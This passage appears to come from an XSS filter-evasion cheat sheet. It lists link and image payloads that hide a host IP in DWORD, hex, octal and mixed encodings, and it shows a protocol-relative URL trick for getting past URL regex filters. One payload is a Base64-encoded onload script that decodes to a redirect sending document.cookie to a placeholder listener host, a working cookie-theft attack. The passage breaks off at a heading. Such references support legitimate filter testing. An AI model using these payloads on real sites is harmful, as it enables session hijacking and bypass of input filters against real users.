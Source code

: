 ### DWORD Encoding

Note: there are other of variations of Dword encoding - see the IP Obfuscation calculator below for more details:

```html
<A HREF="http://1113982867/">XSS</A>
```

### Hex Encoding

The total size of each number allowed is somewhere in the neighborhood of 240 total characters as you can see on the second digit, and since the hex number is between 0 and F the leading zero on the third hex quotet is not required):

```html
<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
```

### Octal Encoding

Again padding is allowed, although you must keep it above 4 total characters per class - as in class A, class B, etc...:

```html
<A HREF="http://0102.0146.0007.00000223/">XSS</A>
```

### Base64 Encoding

```html
<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">
```

### Mixed Encoding

Let's mix and match base encoding and throw in some tabs and newlines - why browsers allow this, I'll never know). The tabs and newlines only work if this is encapsulated with quotes:

```html
<A HREF="h 
tt  p://6 6.000146.0x7.147/">XSS</A>
```

### Protocol Resolution Bypass

`//` translates to `http://` which saves a few more bytes. This is really handy when space is an issue too (two less characters can go a long way) and can easily bypass regex like `(ht|f)tp(s)?://` (thanks to Ozh for part of this one). You can also change the `//` to `\\\\`. You do need to keep the slashes in place, however, otherwise this will be interpreted as a relative path URL.

```html
<A HREF="//www.google.com/">XSS</A>
```

### Google "feeling lucky" part 1
